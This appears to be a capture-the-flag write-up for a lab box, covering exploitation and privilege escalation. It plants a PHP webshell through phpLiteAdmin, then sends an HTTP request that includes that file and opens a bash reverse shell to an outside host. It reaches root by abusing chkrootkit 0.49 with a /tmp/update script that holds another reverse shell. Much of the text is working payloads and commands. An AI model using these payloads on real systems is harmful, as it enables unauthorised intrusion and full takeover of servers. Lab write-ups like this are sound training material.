 ## Exploitation
- Once logged into both sites, you can create a payload in phpLiteAdmin

- Create table `ninvehNotes.php`
- Add column `ninevehNotes` as a text field and add the following for a webshell: `<?php system($_GET[cmd]) ?>`
- The following HTTP payload gets you a reverse shell
```
GET /department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.17/53+0>%261" HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=8qn3aunvtaqu7lqu61gdvc9us1
Upgrade-Insecure-Requests: 1
```
- You drop into the box as `www-data`


## Privilege Escalation
### Enumeration
- There are two users on this box from `/etc/passwd`
	- root
	- amrois

- In the `/` directory there is a directory `report` which has text files produced approximatly every minute.
- It appears to be the log file for a scanner
- A few of the files have the prefix of 'chk'
- Checking the processes, root is running chkrootkit

```bash
$ ps aux | grep chkrootkit
root     25454  0.0  0.1   4796  1972 ?        S    15:40   0:00 /bin/sh /usr/bin/chkrootkit
```
- [Chkrootkit 0.49 EoP](https://vk9-sec.com/chkrootkit-0-49-local-privilege-escalation-cve-2014-0476/)
- Writing the following contents to `/tmp/update`
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/1337 0>&1
```
- This catches me a reverse shell